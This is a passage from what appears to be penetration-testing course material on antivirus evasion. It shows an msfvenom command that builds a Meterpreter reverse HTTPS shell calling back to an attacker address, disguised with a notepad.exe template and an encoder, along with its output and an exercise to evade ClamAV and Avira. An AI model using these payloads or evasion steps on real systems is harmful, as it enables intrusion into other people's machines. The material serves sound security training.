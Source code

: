 ```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.176.134 LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o /var/www/html/met64_notepad.exe
...
Attempting to encode payload with 1 iterations of x64/zutto_dekiru
x64/zutto_dekiru succeeded with size 758 (iteration=0)
x64/zutto_dekiru chosen with final size 758
Payload size: 758 bytes
Final size of exe file: 370688 bytes
Saved as: /var/www/html/met64_notepad.exe
```

> Listing 22 - Specifying notepad.exe as a template

We'll copy the generated executable to our Windows 10 victim machine and again scan it with Avira. However, Avira flags it once again (Figure 6).

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/avi/5d1cd9c8bd5090bb2f919e407b112b34-avi_msf_aviratemplate.png" alt="Figure 6: Avira detecting Meterpreter with notepad template"><figcaption><p>Figure 6: Avira detecting Meterpreter with notepad template</p></figcaption></figure>

So far, we have used Metasploit encoders to successfully bypass ClamAV signature detection, but we were not successful against Avira. Clearly, Metasploit encoders are no longer widely effective for this purpose. In the next section, we will investigate the effectiveness of specific encryption techniques for this task.

**Exercise**

1. Experiment with different payloads, encoders, and templates to try to bypass signature detections in both ClamAV and Avira.

1

(Daniel Sauder, 2015), [https://danielsauder.com/2015/08/26/an-analysis-of-shikata-ga-nai/](https://danielsauder.com/2015/08/26/an-analysis-of-shikata-ga-nai/) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_270-1)

2

(Nick Hoffman, Jeremy Humble, Toby Taylor, 2019), [https://www.boozallen.com/c/insight/blog/the-zutto-dekiru-encoder-explained.html](https://www.boozallen.com/c/insight/blog/the-zutto-dekiru-encoder-explained.html) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_270-2)

#### 9.4.2. Metasploit Encryptors

Rapid7, the developers of Metasploit, launched updated options for encryption in 2018, which were designed to address the growing ineffectiveness of encoders for antivirus evasion. We will investigate these options next.

Let's investigate the effectiveness of this feature. To begin, we'll run msfvenom with --list encrypt to list the encryption options:

```
kali@kali:~$ msfvenom --list encrypt

Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```
